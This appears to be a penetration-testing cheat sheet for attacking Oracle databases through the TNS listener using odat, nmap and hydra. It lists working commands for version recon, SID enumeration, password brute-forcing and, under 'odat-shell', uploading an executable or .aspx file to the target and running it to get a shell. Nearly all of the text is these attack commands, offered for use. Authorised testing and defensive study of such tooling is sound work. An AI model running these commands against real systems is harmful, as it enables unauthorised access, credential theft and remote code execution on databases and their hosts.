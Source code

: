 # slqi oracle odat

## Recon

```bash
nmap --script "oracle-tns-version" -p 1521 -T4 -sV DOMAIN|IP

# if TNS versions are incompatible using --10G flag
tnscmd10g status -h DOMAIN|IP [--10G]

(ERROR=(CODE=12618) => TNS version incompatible
(ERROR=(CODE=1189) => TNS could not authenticate user; needs PASS
```

[Oracle Error Code Reference Link](https://docs.oracle.com/database/121/ERRMG/TNS-00000.htm#ERRMG-GUID-D723D931-ECBA-4FA4-BF1B-1F4FE2EEBAD7)

## odat-enum

```bash
odat tnscmd -s DOMAIN|IP -p 1521 --CMD
CMD = [version | ping | status | services]

# sid enumeration
odat sidguesser -s DOMAIN|IP -p 1521 [--sids-file=/opt/oracle-tns/sids-oracle.txt]
hydra -L /opt/oracle-tns/sids-oracle.txt -s 1521 DOMAIN|IP oracle-sid

# password brute-force
# needs wordlist in format user/pass
sudo odat passwordguesser -s DOMAIN|IP -p 1521 -d "SID" --accounts-file FULL-PATH-FILE [--sysdba]

# /files/userpass-brute-oracle-tns.py
# needs wordlist in format user:pass
python oracle-userpass-brute.py DOMAIN|IP oracle_default_userpass.txt

# automated check
odat all -s DOMAIN|IP -d SID -U USER -P PASS [--sysdba]
```

## odat-shell

```bash
# upload and execute
odat utlfile -s DOMAIN|IP -p 1521 -U USER -P PASS -d SID --sysdba --putFile  C:\\PATH-TO-WRITE FILE.exe LOCAL-PATH-FILE.exe
odat externaltable -s DOMAIN|IP -p 1521 -U USER -P PASS -d SID --sysdba --exec /PATH-TO-FILE FILE.exe

[OR]
odat dbmsadvisor -s DOMAIN|IP -p 1521 -d SID -U USER -P PASS --sysdba --putFile C:\\PATH-TO-WRITE FILE.aspx LOCAL-PATH-FILE.aspx
```

![](https://0xdf.gitlab.io/img/ODAT_main_features_v2.0.jpg)

## Additional Material

* [Hacktricks/1521-1522-1529-pentesting-oracle-listener](https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener)
